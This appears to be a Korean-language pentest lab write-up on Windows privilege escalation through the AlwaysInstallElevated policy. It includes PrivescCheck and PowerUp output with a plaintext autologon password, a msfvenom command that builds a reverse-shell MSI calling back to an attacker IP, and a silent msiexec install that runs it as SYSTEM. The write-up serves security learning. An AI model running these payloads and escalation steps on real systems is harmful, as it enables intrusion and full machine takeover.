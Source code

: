```yaml
---
layout: page
title: AlwaysInstallElevated_(feat._PrivescCheck.ps1)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


### 1. **취약점 기본 개념 (AlwaysInstallElevated 정책)**

- **정책 역할**: Windows Installer (msiexec.exe)는 소프트웨어 설치 도구로, 기본적으로 사용자 권한으로 MSI 패키지를 설치합니다. 하지만 "AlwaysInstallElevated" 정책이 활성화되면, 모든 MSI 설치가 자동으로 SYSTEM 권한(최고 수준의 로컬 Administrator 권한)으로 실행됩니다. 이는 기업 환경에서 관리자가 소프트웨어를 쉽게 배포하기 위해 설정하지만, 보안상 매우 위험합니다.
- **활성화 조건**: PrivescCheck.ps1 결과처럼, 다음 두 레지스트리 키가 모두 1(DWORD)로 설정되어야 합니다:
    - **HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1**: 시스템 전체(모든 사용자)에 적용.
    - **HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1**: 현재 사용자에 적용.
- **왜 취약한가?**: 이 정책이 둘 다 활성화되면, 저권한 사용자(low-privilege user)가 악성 MSI 파일을 설치할 때 SYSTEM 권한을 상속받습니다. 결과적으로, MSI 내 페이로드(예: 리버스 쉘)가 root 수준으로 실행되어 권한 상승이 발생합니다. Microsoft는 이 설정을 강력히 비추천하며, UAC(User Account Control)를 우회하는 효과가 있습니다.

---

### 2. **취약한 부분 상세 분석**

- **레지스트리 구성 오류**: 시스템 관리자가 그룹 정책(Group Policy)이나 레지스트리를 통해 이 설정을 의도적으로 활성화하거나, 실수로(예: 자동화 스크립트나 오래된 구성) 남겨둔 경우 발생합니다. HKLM만 설정되면 시스템 전체 영향을 주지만, HKCU도 함께 설정되어야 사용자별로 악용 가능합니다. PrivescCheck.ps1이 이를 확인한 대로, "Description: AlwaysInstallElevated is enabled in both HKLM and HKCU"는 취약점을 직접 지시합니다.
- **MSI 설치 메커니즘 취약**: msiexec는 MSI 파일을 처리할 때 정책을 확인합니다. AlwaysInstallElevated가 on이면, 설치 프로세스가 SYSTEM 컨텍스트로 전환됩니다. 이는 정상 설치에는 편리하지만, 악성 MSI(예: 리버스 쉘 포함)를 만들면 SYSTEM 쉘을 spawn할 수 있습니다.
- **runas 명령어의 역할**: runas /user:dev-datasci-lowpriv는 저권한 사용자(dev-datasci-lowpriv)로 명령어를 실행하지만, msiexec 자체가 정책으로 인해 SYSTEM으로 상승합니다. /qn 옵션은 UI 없이 조용히 설치(quiet mode)하므로, 탐지 회피에 유용합니다.
- **전체 취약 포인트**:
    - **정책 활성화**: 둘 다 1로 설정되지 않았다면, 저권한 사용자가 MSI를 설치해도 SYSTEM 권한을 얻지 못합니다.
    - **MSI 페이로드 생성**: msfvenom이 MSI 형식으로 쉘을 패키징하므로, 설치 시 페이로드가 트리거됩니다.
    - **UAC 및 권한 검사 우회**: 정책이 SYSTEM으로 강제하므로, 별도의 권한 요청 없이 상승합니다.


[[PrivescCheck]]


```powershell
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Configuration - MSI AlwaysInstallElevated         ┃
┃ TYPE     ┃ Base                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'AlwaysInstallElevated' policy is enabled  ┃
┃ system-wide and for the current user. If so, the current     ┃
┃ user may install a Windows Installer package with elevated   ┃
┃ (SYSTEM) privileges.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛


LocalMachineKey   : HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
LocalMachineValue : AlwaysInstallElevated
LocalMachineData  : 1
CurrentUserKey    : HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
CurrentUserValue  : AlwaysInstallElevated
CurrentUserData   : 1
Description       : AlwaysInstallElevated is enabled in both HKLM and HKCU.
```

```powershell title="PowerUp.ps1"
[*] Checking for Autologon credentials in registry...


DefaultDomainName    : DEV-DATASCI-JUP
DefaultUserName      : dev-datasci-lowpriv
DefaultPassword      : wUqnKWqzha*W!PWrPRWi!M8faUn
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
```


---

리버스 TCP 쉘을 MSI 패키지로 만듭니다. 설치 시 쉘이 실행되어 공격자(Kali)로 연결합니다.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.10 LPORT=443 -a x64 --platform Windows -f msi -o kb1108264.msi
```


- runas: 저권한 사용자 컨텍스트로 전환 (하지만 정책으로 인해 msiexec가 SYSTEM으로 실행).
- msiexec /i: MSI 설치, /qn: 무음 설치.
- 결과: MSI 내 쉘이 SYSTEM으로 실행되어 Administrator(또는 SYSTEM) 권한 리버스 쉘이 Kali에 연결됩니다

```powershell
runas /user:dev-datasci-lowpriv “msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\kb1108264.msi /qn”
```


취약성 악용 이유: 정책이 MSI 설치 프로세스를 SYSTEM으로 강제하므로, 저권한 사용자라도 악성 패키지를 통해 권한을 "빌려" 상승합니다. 이는 Windows Installer의 설계상 보안 홀입니다.